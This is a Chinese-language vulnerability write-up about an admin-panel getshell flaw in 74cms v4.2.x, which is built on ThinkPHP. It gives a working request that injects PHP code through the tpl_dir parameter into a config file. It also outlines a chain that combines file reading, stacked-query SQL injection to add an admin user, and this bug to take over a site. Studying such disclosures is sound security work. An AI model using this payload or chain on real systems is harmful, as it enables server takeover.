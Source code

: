# 74cms v4.2.1-v4.2.129-后台getshell漏洞

## 0x00 前言

厂商：74cms

下载地址：http://www.74cms.com/download/index.html

关于版本：

新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。

注：此漏洞不用升级至最新版本也可使用。

## 0x01 74cms升级到最新版

1， 先去官网下载 骑士人才系统基础版(安装包)

2， 将下载好的包进行安装

3， 进入后台点击查看如果不是最新版的话，请点击升级！

4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决

5， 搜索文件`74cms\upload\Application\Admin\Controller\ApplyController.class.php`

6， 查找所有`$_SERVER['HTTP_HOST'] 改为 http://baidu.com` 即可

## 0x02漏洞演示

![](images/15889205312558.png)



```bash
url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'

shell:http://74cms.test/Application/Home/Conf/config.php
路径：\74cms\upload\Application\Home\Conf\config.php
```

![](images/15889205463522.png)


![](images/15889205526237.png)


## 0x03 漏洞原理


```bash
url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'
路径：74cms\upload\Application\Admin\Controller\TplController.class.php
```

![](images/15889205822585.png)


路径： `74cms\upload\Application\Common\Controller\BackendController.class.php`

![](images/15889205949035.png)


## 0x04题外话-认真版getshell方法

认真版getshell方法：

实际上想要进行getshell利用组合漏洞是很简单的事情。我的前台日到后台的getshell方法是这样的。

首先利用-任意文件读取漏洞-读取系统中的hash值

然后在通过漏洞-前台sql注入-来插入用户数据-因为我发现他可以支持执行双语句所以可以执行mysql双语句插入一条管理员用户

在通过这个后台getshell漏洞

即可完成一套日穿

## 四、参考链接

https://www.yuque.com/pmiaowu/bfgkkh/wecilm